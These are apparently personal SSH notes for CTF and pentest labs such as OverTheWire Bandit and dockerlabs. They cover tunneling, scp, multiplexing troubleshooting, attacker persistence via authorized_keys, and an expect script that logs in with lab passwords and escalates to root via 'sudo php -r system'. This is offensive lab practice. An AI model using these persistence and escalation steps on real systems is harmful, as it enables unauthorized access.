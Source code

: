 # SSH (Securie Shell Protocol)


`~` is a escape character, only recognized after `Enter`. So to send a ssh session to background: `~ Ctrl+Z`


## credential-based authentication
Username and password

##  key-based SSH authentication
An attacker has gained a foothold in a server that is running SSH, and they want to ensure they have persistence and can connect back to it if their reverse shell dies. SSH is configured using key-based authentication, instead of usernames and passwords. What file needs to be modified to allow them to connect to SSH from a remote host?: `authorized_keys`, the remote host that is attempting to connect must have their private key in the authorized_keys file, allowing it to successfully connect.



permissions are too open
```
chmod 600 ~/.ssh/id_rsa
```



## disable the pseudo -tty allocation
use `-T `parameter:
```
ssh -T bandit18@bandit.labs.overthewire.org -p 2220
```



## remote execution of commands by adding the commands after the common SSH expression
```
ssh bandit18@bandit.labs.overthewire.org -p 2220 cat readme
```






## SCP / copy files
```
scp -P 2220 bandit17@bandit.labs.overthewire.org:/home/bandit13/sshkey.private ./localDir/
```







## SSH Tunneling / Port Forwarding

ssh -L [local_port]:[remote_host]:[remote_port] user@[IP]
ssh -L [local_port]:[remote_host]:[remote_port] user@[IP] -p [PORT]






## Multiplexing

- <https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing>


```

# 1. Verify SSH Configuration

Ensure that your `~/.ssh/config` file is correctly set up. It should look something like this:

Host *
    ControlMaster auto
    ControlPath ~/.ssh/control-%r@%h:%p
    ControlPersist 10m





# 2. Check for Configuration Errors
Run the following command to check for configuration errors:bash

ssh -T -o ControlMaster=auto -o ControlPath=~/.ssh/control-%r@%h:%p -o ControlPersist=10m user@hostname




# 3. Inspect the ControlPath Socket
Verify that the control socket file is being created:bash

ls -l ~/.ssh/control-*



You should see a file corresponding to the control path specified. If it's missing, it could indicate that the master connection isn't being established properly.


# 4. Check for Existing Master Connection
You can check if there’s an existing master connection with:bash

ps aux | grep ssh




Look for processes related to SSH that might indicate the master connection


# 6. Start the Master Connection Explicitly

Instead of relying on ```ControlMaster auto```, try starting the master connection explicitly:bash

ssh -M -S ~/.ssh/control-%r@%h:%p user@hostname

Then, open a new session that uses this master connection:bash

ssh -S ~/.ssh/control-%r@%h:%p user@hostname



If changes don't seem to apply, restarting the SSH service on your local machine can sometimes help:bash

sudo systemctl restart ssh







```





## AUTOMATE LOGIN WITH SCRIPT

Example with dockerlabs.es "LittlePivot"
This will login as "manchi", switch to "seller" and then "root".


```bash
#!/usr/bin/expect -f

# Set variables
set remote_host "10.10.10.2"
set remote_user "manchi"
set manchi_password "lovely"
set seller_password "qwerty"
set cmd "/bin/bash"

# Start the SSH session
spawn ssh $remote_user@$remote_host

# Handle the SSH password prompt
expect "password:"
send "$manchi_password\r"

# Switch to the seller user
expect "$ "
send "su - seller\r"

# Handle the seller user password prompt
expect "Password:"
send "$seller_password\r"

# Set the environment variable and run the command
expect "$ "
send "export CMD=$cmd\r"
send "sudo php -r \"system('$cmd');\"\r"

# Expect the command to complete and print the result
expect "$ "
send "whoami\r"

# The session remains open for further commands
interact

```
